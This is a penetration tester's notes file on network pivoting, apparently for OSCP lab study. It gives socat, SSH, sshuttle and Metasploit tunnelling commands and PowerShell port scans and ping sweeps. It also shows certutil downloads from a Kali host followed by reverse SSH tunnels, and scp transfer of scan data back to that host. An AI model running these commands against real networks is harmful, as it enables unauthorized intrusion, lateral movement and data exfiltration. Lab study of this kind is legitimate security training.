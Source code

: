 <%*
const path = tp.file.folder(true).split('/');
const filename = "4_B_Network_" + path[path.length - 1];
await tp.file.rename(filename)
-%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target

### Simple static
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables
### Local Dynamic
```powershell
ssh -N -D 0.0.0.0:9997 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
> Requires SSH above 7.6. Check with `ssh -V`.
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```

(Machine A, interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.195:8000/id_rsa_kali"; ssh -i id_rsa_kali -N -R 9997 kali@192.168.45.195
```
or
(Machine A, non-interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/id_rsa_kali"; ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9997 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot. It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)

### Remote Dynamic with Metasploit
Within an exististing session:
1. `bg`
2. `use post/multi/manage/autoroute`, `set session 1`, and `run -j` (adjust the session number)
3. `use auxiliary/server/socks_proxy`, `set VERSION 5`, `set SRVHOST 127.0.0.1`, `set SRVPORT 9989`, and `run -j`
4. Add `socks5 127.0.0.1 9989` to `/etc/proxychains4.conf` 

# Fault handling
Test the connection
`proxychains nmap -Pn $hip -p $hport`
`sudo ss -ntplu`

Proxychains does not work with tool (e.g. enum4linux)
`proxychains -q`

Slow scanning speeds
--> lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf`

Start SSH Agent on windows
`Get-Service ssh-agent | Select StartType` says disabled
--> `Get-Service -Name ssh-agent | Set-Service -StartupType Manual ; Start-Service ssh-agent`

Correct ssh-key permissions on windows
```powershell
New-Variable -Name Key -Value "C:\Users\Public\id_rsa_kali"
# Remove Inheritance:
  Icacls $Key /c /t /Inheritance:d

# Set Ownership to Owner:
  # Key's within $env:UserProfile:
    Icacls $Key /c /t /Grant ${env:UserName}:F

   # Key's outside of $env:UserProfile:
     TakeOwn /F $Key
     Icacls $Key /c /t /Grant:r ${env:UserName}:F

# Remove All Users, except for Owner:
  Icacls $Key /c /t /Remove:g Administrator "Authenticated Users" BUILTIN\Administrators BUILTIN Everyone System Users

# Verify:
  Icacls $Key

# Remove Variable:
  Remove-Variable -Name Key
```
# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```
Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```
Pingsweep LOLBAS (**I SPENT SOME TIME FINDING THE MOST EFFICIENT APPROACH AND FORGOT TO NOTE WHICH OF THESE WORKED**)
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools plink, and netsh, consider the oscp manual

##### Create working dirs and start individual system scanning

```bash
for i in $(tail -n 7 0_Hosts); do (mkdir -p "B_$i" && cd $_ && proxychains nmap -Pn --osscan-guess -T 5 -A --top-ports 100 $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html)& done
```

> **If you have a windows GUI oder linux CLI and Administrator rights, scan from the remote host itself:**

##### Scan with nmap from Windows
1. Install nmap, requires GUI
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.158:8000/nmap-7.94-win-setup.exe" ; .\nmap-7.94-win-setup.exe
```
You can find the installer in `/ftphome/`
2. Run pingsweep and add new hosts to `/etc/hosts`. Also, add them to `ips.txt` on the windows host 
```powershell
& "C:\Program Files (x86)\Nmap\nmap.exe" -sn 172.16.199."1-254" -oG - | findstr "Status: Up"
```
3. Run full scan
   ```powershell
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" --osscan-guess -T 5 -A -p- $i -oX "C:\Users\tempadmin\${i}_fullscan.xml" }; 
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" -sUV --top-ports 100 $i -oN "C:\Users\tempadmin\0_udp_top100_${i}.txt" }
```
4. Zip the resulting files and transfer them to kali, e.g. with:
```powershell
scp -i id_rsa_kali transfer.zip kali@192.168.45.158:'/home/kali/oscp/lab/Medtech/A_WEB02/extract'
```
5. Unzip the file and move all files to their respective host's folder.
7. Change the path within the .xml files so that xlstproc can find the nmap stylesheet, then run the latter.
```bash
for i in $(find .. -name "*fullscan.xml" | tr '\n' ' '); do \
cd ../$(echo $i | cut -d '/' -f2); \
mv 0_overview.html overview_from_A.html.bak; \
sed -i 's/C:\/Program Files (x86)\/Nmap\/nmap.xsl/usr\/bin\/..\/share\/nmap\/nmap.xsl/g' $i; \
xsltproc -o 0_overview.html $i; done
```